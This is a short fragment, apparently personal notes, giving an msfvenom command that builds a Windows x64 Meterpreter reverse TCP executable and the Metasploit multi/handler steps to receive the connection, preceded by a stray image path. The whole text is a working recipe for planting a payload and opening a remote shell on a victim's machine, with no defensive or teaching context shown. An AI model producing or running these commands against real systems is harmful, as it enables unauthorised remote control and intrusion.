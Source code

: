 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -a x64 -o /root/Desktop/<filename>.exe

* enter use exploit/multi/handler

* Enter set PAYLOAD windows/x64/meterpreter/reverse_tcp

* Enter set LHOST <IP>

* Enter set LPORT 4444

* Enter run
